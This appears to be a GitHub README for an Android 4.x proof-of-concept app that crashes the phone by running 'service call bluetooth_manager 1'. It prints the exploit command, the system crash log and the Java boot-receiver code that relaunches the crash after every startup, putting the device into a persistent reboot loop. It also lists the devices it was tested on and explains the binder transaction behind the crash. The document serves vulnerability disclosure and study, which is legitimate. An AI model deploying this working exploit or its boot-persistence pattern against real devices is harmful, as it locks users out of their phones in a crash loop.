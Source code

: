 android_bt_manager
==================

This Android 4.x application causes the Android runtime to crash Android.io by making a service call to bluetooth_manager. This android application also demonstrates how to launch an application, or other activities, at device startup/boot. 

**WARNING:** This application causes your Android 4.x device to crash 15 seconds after startup as well as 15 seconds after each reboot. Do not run this application without the delay in `MainActivity`. 

**How it works:**
- `MainActivity` sends service call to `IBluetoothManager`: `Runtime.getRuntime().exec("service call bluetooth_manager 1");`. This crashes the Android OS and causes the phone to shut off. 

```
W/dalvikvm(10717): threadid=16: thread exiting with uncaught exception (group=0x415c4ba8)
E/AndroidRuntime(10717): *** FATAL EXCEPTION IN SYSTEM PROCESS: android.io
E/AndroidRuntime(10717): java.lang.NullPointerException
E/AndroidRuntime(10717):        at android.os.RemoteCallbackList.register(RemoteCallbackList.java:112)
E/AndroidRuntime(10717):        at android.os.RemoteCallbackList.register(RemoteCallbackList.java:78)
E/AndroidRuntime(10717):        at com.android.server.BluetoothManagerService$BluetoothHandler.handleMessage(BluetoothManagerService.java:755)
E/AndroidRuntime(10717):        at android.os.Handler.dispatchMessage(Handler.java:102)
E/AndroidRuntime(10717):        at android.os.Looper.loop(Looper.java:136)
E/AndroidRuntime(10717):        at android.os.HandlerThread.run(HandlerThread.java:61)
```

- On startup, the `BootReceiver` class, a `BroadcastReceiver` waits for `ACTION_BOOT_COMPLETED` to start `Crash` service. 

```Java
if (Intent.ACTION_BOOT_COMPLETED.equals(intent.getAction())) {
Intent serviceIntent = new Intent(context, Crash.class);
context.startService(serviceIntent);
}
```

- `Crash` service starts the `MainActivity`, which causes the system to crash again. 

```Java
Intent i = new Intent(this, MainActivity.class);
i.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
startActivity(i);
```

- Repeat. 

**Application Permissions:** 
- `RECEIVE_BOOT_COMPLETED`

**This application has been tested on the following devices:**

|   Device      |   OS   | Rooted | Runtime |
| ------------- |:------:|:------:|:-------:|
| Nexus 5       | 4.4.2  | ✓      | Dalvik  |
| Moto X        | 4.4.3  | x      | Dalvik  |
| Nexus 5       | 4.4.3  | ✓      | Dalvik  |

**What is "`bluetooth_manager 1`"?**

This is a method call to register a bluetooth adapter. `static final int TRANSACTION_registerAdapter = (android.os.IBinder.FIRST_CALL_TRANSACTION + 0);`

In `IBluetoothManager.java` it does the following: 

```Java
case TRANSACTION_registerAdapter:
{
    data.enforceInterface(DESCRIPTOR);
    android.bluetooth.IBluetoothManagerCallback _arg0;
    _arg0 = android.bluetooth.IBluetoothManagerCallback.Stub.asInterface(data.readStrongBinder());
    android.bluetooth.IBluetooth _result = this.registerAdapter(_arg0);
    reply.writeNoException();
    reply.writeStrongBinder((((_result!=null))?(_result.asBinder()):(null)));
    return true;
}
```

The OS is also unable to handle request to unregister an adapter as well as both register and unregister state changes. More information can be found in the `IBluetoothManager.java` [file](http://grepcode.com/file/repository.grepcode.com/java/ext/com.google.android/android/4.4.2_r1/android/bluetooth/IBluetoothManager.java#IBluetoothManager).
